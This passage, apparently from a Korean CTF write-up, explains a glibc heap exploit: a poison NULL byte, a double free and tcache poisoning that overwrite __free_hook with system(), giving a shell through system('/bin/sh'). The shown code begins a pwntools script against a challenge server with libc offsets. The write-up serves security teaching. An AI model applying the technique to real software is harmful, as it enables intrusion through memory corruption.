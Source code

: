 `0x120` 크기의 청크를 두 개 할당받고 뒤쪽 청크를 free시킵니다. poison NULL byte를 발생시켜서 뒤쪽 청크의 사이즈를 `0x100`으로 조작하고 다시 free시키면 다음과 같은 상태가 됩니다.

![image](https://user-images.githubusercontent.com/59759771/98460454-f6fefc80-21e7-11eb-94dc-1c93703678cc.png)

<br>

### free hook overwrite

double free된 청크의 fd를 조작하여 free hook 영역에 페이크 청크를 할당받을 수 있습니다.

<br>

```python
add(p64(freehook), 21, 6) # index: 0
for i in range(6):
    input_grade("", 100)
```

먼저 `0x120` 크기의 청크를 하나 할당받고 이름에 free hook의 주소를 저장합니다. 그러면 다음과 같은 상태가 됩니다.

![image](https://user-images.githubusercontent.com/59759771/98460460-041beb80-21e8-11eb-93ec-63cac78c3008.png)

![image](https://user-images.githubusercontent.com/59759771/98460473-14cc6180-21e8-11eb-9803-e480956daffc.png)

이 `tcache_entry[14]`에 free hook의 주소가 들어가있는 것을 확인할 수 있습니다. 이 상태에서 `0x100` 크기의 청크 2개를 할당받으면 free hook 영역의 페이크 청크가 사용자에게 반환될 것입니다. 이때 주의할 점은 티캐시에 2개 이상의 청크가 저장되어 있어야 합니다. 앞의 사진에서 `tcache_entry[14](1)`은 티캐시에 청크가 1개만 있음을 의미합니다. 이런 경우 fd를 조작했더라도 시스템은 티캐시에 청크가 1개만 있다고 판단해서, 2번째 할당 요청을 보냈을 때는 티캐시에서 꺼내주지 않고 새로운 청크를 할당합니다.

<br>

페이크 청크를 제대로 할당받았다면, free hook을 `system()`의 주소로 덮을 수 있습니다. 그리고 나서 `"/bin/sh"`가 적힌 청크를 free시키면 `system("/bin/sh")`가 실행되어 쉘을 획득할 수 있습니다.

<br>

---

## full exploit

```python
from pwn import *

# r = process("./give_me_A+")
r = remote("srv.cykor.kr", 31003)

offset_freehook = 0x1eeb28 # offset of free hook from libc base
offset_system = 0x55410 # offset of system() from libc base

def add(name, age, number_of_subjects):
    r.sendlineafter("[+] input menu.\n", 'a')
    r.sendlineafter("[+] input name.\n", name)
    r.sendlineafter("[+] input age.\n", str(age))
    r.sendlineafter("[+] input number of subjects.\n", str(number_of_subjects))

def input_grade(subject_name, score):
    r.sendlineafter("[+] input subject name.", subject_name)
    r.sendlineafter("[+] input score.", str(score))

def delete(index):
    r.sendlineafter("[+] input menu.\n", 'd')
    r.sendlineafter("[+] input student index.\n", str(index))

def print_info(index):
    r.sendlineafter("[+] input menu.\n", 'p')
    r.sendlineafter("[+] input student index.\n", str(index))

```